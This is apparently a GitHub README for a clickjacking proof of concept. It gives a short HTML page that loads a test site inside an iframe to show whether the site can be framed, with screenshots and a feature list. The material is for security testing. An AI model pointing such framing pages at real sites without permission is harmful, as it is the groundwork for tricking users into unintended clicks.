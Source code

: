 # Clickjacking Vulnerability PoC

**Description:**
This repository hosts a professional Proof of Concept (PoC) showcasing the Clickjacking vulnerability in web applications. Clickjacking represents a significant security concern, allowing unauthorized manipulation of user interactions and data access.

- Save code with .html extension.
- Change with your URL want to test.
  
```html 
<html>
<title>Click Jacking</title>
<meta name="author" content="m14r41">
<head></head>
<body>
    <font color="white" size="30">
        <h2 style="font-weight: bold; color: black">Clickjacking Vulnerability Poc</h2>
        <p style="font-weight: bold; color: rgb(146, 83, 83)">This vulnerability presents a security risk, allowing for potential manipulation</br> of user interactions and unauthorized data access without user consent.</p>
        <iframe src="http://testphp.vulnweb.com/" width="70%" height="70%"></iframe>
</body>
</html>
```

---

![image](https://github.com/m14r41/Clickjacking-Poc/assets/95265573/42fd8f35-bd40-480e-87a1-fafc8392ab21)

## Online Poc
![image](https://github.com/user-attachments/assets/96a93f3b-0a38-48b8-97e2-ccf5aeb27cfc)


**Features:**

- A clear title explaining the repository's purpose.
- A concise explanation of Clickjacking vulnerability.
- Inclusion of an `<iframe>` element demonstrating a common Clickjacking vector.

**By:** [m14r41](https://github.com/m14r41)

